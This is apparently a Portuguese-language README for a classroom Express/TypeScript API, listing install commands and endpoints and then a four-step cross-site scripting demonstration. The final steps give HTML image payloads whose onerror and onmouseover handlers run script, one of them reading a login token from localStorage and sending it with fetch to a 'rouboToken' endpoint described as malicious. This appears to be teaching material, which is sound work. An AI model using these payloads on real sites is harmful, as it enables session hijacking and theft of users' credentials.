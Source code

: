 ## 🚀 API LOCAL

API que irei usar nas aula de DESKTOP

## Installation

Use o NPM para fazer a instalação das bibliotecas após baixar o repositório

!!! IMPORTANTE, crie as tabelas no seu banco de dados igual no arquivo tabelas.sql

```bash
npm install
```

```bash
npm install typescript ts-node express @types/node @types/express
```

```bash
npm install nodemon
```

## Rodar a aplicação

```
npm run start-dev

```

```http
  GET /ping
```

```http
  POST /cadastrarUsuario
```

```http
  POST /fazerLogin
```

```http
  GET /listarEmails
```

```http
  GET /listarTodosUsuarios
```

```http
  DELETE /deletarUsuario/:id
```

```http
  PUT /atualizarUsuario/:id
```

```http
  GET /pegarUsuarioPeloId/:id
```

```http
  GET /mostrarNotificacao
```

```http
  PATCH /atualizarNotificacao

```


1º Passo: Verificar se o input recebe um script 
<img src='nemexiste' onerror='console.log("To dentro do sistema")'/>

2º Passo: Registrar um token via console para ser roubado 

3ºPasso - Colocar uma imagem que será feito um scipt malicioso ao ser passada por cima 
<img 
  src="https://media.licdn.com/dms/image/v2/D4D03AQGyFmBltUalew/profile-displayphoto-shrink_800_800/profile-displayphoto-shrink_800_800/0/1695938689937?e=1738195200&v=beta&t=VvCX9rPGBJwMLCRP2uuBsmi0_9teSr92ibSMLSUlrxw" 
  onmouseover="console.log('Mouse passou sobre a imagem!')" 
  />

4ºPasso - Capturar o token que está no local storage e enviar para uma API maliciosa
<img 
  src="https://scontent.fpoa10-1.fna.fbcdn.net/v/t39.30808-6/463122329_3558369394309010_1503674593130181477_n.jpg?_nc_cat=100&ccb=1-7&_nc_sid=a5f93a&_nc_ohc=pFZhjJd2aIMQ7kNvgEEGcVW&_nc_zt=23&_nc_ht=scontent.fpoa10-1.fna&_nc_gid=Aa7Dvb8QfpnpI6Fy83HhubE&oh=00_AYAhRKZkiQ1xJZdBsX8jnkflex1jpJv3w9Xq44rgPmwzOA&oe=674B8A46" 
  onmouseover='fetch("http://localhost:4000/rouboToken?token=" + localStorage.getItem("token"))' />


